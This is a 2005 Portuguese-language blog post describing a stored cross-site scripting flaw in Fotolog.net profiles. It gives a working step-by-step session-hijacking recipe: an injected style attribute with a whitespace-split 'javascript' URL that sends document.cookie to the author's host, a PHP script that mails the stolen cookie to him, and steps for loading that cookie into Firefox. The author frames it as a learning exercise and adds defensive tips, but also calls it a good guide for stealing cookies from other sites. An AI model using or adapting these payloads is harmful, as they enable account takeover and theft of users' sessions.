 ```yaml
---
title: Falha no Fotolog.net
type: post
date: 2005-02-17T16:22:47+00:00
excerpt: A descrição de como descobri que consegui pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile num Fotolog.net
url: /2005/02/falha-no-fotolognet/
categorias:
  - Dicas
tags:
  - cookies
  - dica
  - falha
  - fotolog
  - hacker
  - javascript
  - web
  - xss

---
```

Segue a descrição de como descobri que consigo pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile, e com isso, poder:

  * Adicionar comentários em qualquer fotolog como a pessoa
  * Remover comentários do fotolog da pessoa
  * Adicionar/remover FF list
  * Ver e-mail de cadastro da pessoa

**[update]** Parece que isso não funciona mais hoje. De qualquer maneira, é um bom guia (acho que tá bem detalhado) para _roubar cookies_ de vários outros sitemas que tenham falhas como esta (e não são poucos). **[/update]**

Nos últimos dias, alguém pegou a senha do Fotolog.net de um amigo meu e ele me pediu para que eu tentasse recuperar. Não consegui descobrir senha. Porém, usando furos do Fotolog.net e do Internet Explorer, descobri que consigo estar loggado com qualquer usuário que entre no meu perfil! Já que é preciso escrever a senha em cada página do Fotolog.net (upload, mudar profile, etc.) a única coisa que posso fazer loggado como a pessoa é escrever comentários, mas mesmo assim já é uma coisa estranha que merece a atenção do administrador do Fotolog.net (para o qual irei enviar um e-mail). Irei postar um “passo-a-passo” de como pegar o cookie de login do Fotolog.net e com isto, loggar como a pessoa que perdeu esse cookie.

O cookie do Fotolog.net dura mais de um ano… Isso é um problema grave de segurança, mas não é utilizando esta falha que faço tudo. O que eu fiz foi um JavaScript dentro de um CSS redirecionar para uma página PHP com função mail que me envia a função document.cookie do JavaScript que roda no cliente na página do Fotolog.net! É um pouco difícil de explicar, mas não tão complicado. Meu objetivo postando aqui não é incentivar que as pessoas façam isso (eu só fiz comigo mesmo testando), mas incentivar os que possuem conta no Fotolog.net usarem browsers decentes (como Firefox ou Opera) ou não clicar em profiles de estranhos. Tenho certeza de que hackers de verdade não usarão isto para o mal, mas sim para fins de aprendizagem, como eu fiz; mas parece que vários newbies por aí se acham e se acharão o máximo postando comentários como outras pessoas com a minha “receita de bolo”! Por esses, preciso lamentar e mandar ler a definição de hacker no Jargon File.

A primeira barreira que tive que ultrapassar foi que só 500 brasileiros por dia podem se registrar no Fotolog.net! Bom… Eu tava ansioso pra tentar fazer isso e já que eu não tinha tempo a perder, entrei no site [Public Proxy Servers][1] e usando um proxy high-anonimity do Vietnã me registrei no Fotolog.net… Perfeito! Apareceu que nenhum visitante do Vietnã tinha se cadastrado no dia.

Então, fui até o meu profile e no endereço do meu site eu tentei colocar aspas. Percebi que funcionou, então testei um código de bastante fácil entendimento:

```
#" style="background:url(javascript:location.href='http://tableless.tiagomadeira.net/foo.php'+escape(document.cookie))
```

Mas não funcionou porque o Fotolog.net não permite “javascript” na frase. Então após alguns testes cheguei ao:

```
#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))
```

_OBS.: Tenho recebido e-mail de pessoas dizendo que o não cabe… O meu também não cabia, mas é só questão de diminuir o endereço._

Este código só funciona porque o _Internet Explorer_ é problemático! Não tem nada a ver um _JavaScript_ dentro de uma url de fundo e ainda ir para este endereço! E o [Fotolog.net][2] também tem um bug seríssimo porque não deveria poder se usar aspas no endereço de um site! Daí no meu profile aparece no lugar do endereço da minha página:

```html
<a href="#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))">#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))</a>
```

Bom, depois disso basta fazer uma página PHP que passe este valor do c para um banco de dados ou e-mail (no meu caso, preferi por e-mail mesmo). Criei uma página no meu /r.php com:

```php
<?php
$cookie=$_GET["c"];
mail("meu@email", "Presente pra você!", "$cookie");
Header("Location: http://tableless.tiagomadeira.net");
?>
```

E o último problema que enfrentei então foi colocar este cookie no meu Firefox. Depois de vários testes, descobri que eu podia editar os cookies do meu Firefox. Para isto abri meu _>~/.mozilla/firefox/profiles/??????.default/cookies.txt_ e modifiquei o cookie para o que eu recebi no e-mail. E finalmente loggado!

#### Vou tentar simplificar o “algoritmo”:

  * A pessoa está loggada (sempre, pois o cookie do fotolog.net é gigantesco) e entra no meu perfil.
  * Meu perfil pega o cookie do Fotolog.net deste computador (que precisa estar usando Internet Explorer) e me envia via a função mail do PHP.
  * Eu troco o cookie do meu Firefox pelo que eu recebi no e-mail e com isto fico loggado como a pessoa!

Interessante, né?

Bom, como já havia dito, isto foi apenas para fins de aprendizagem e descobri tudo isto justamente porque algum lammer pegou a senha de um amigo meu, mas espero que as pessoas aprendam a lição para não se tornarem as vítimas deste _“golpe”_.

**Eu conheço três formas para se tornar resistente a esse golpe:**

  * Não utilizar Internet Explorer. Sugiro [Firefox][3] (o que eu uso), [Opera][4], [Konqueror][5], entre outros…
  * Não utilizar [Fotolog.net][2]. Sugiro [Flickr][6].
  * Não clicar em profiles de estranhos.

Bom… É isso aí.

Aprendi muito com isto e por isso compartilho este conhecimento neste post para que outros também possam aprender. Quem puder, divulgue para seus amigos para que eles não sejam vítimas desse tipo de coisa.

 [1]: http://www.publicproxyservers.com
 [2]: http://www.fotolog.net
 [3]: http://www.getfirefox.com
 [4]: http://www.opera.com
 [5]: http://konqueror.kde.org
 [6]: http://www.flickr.com


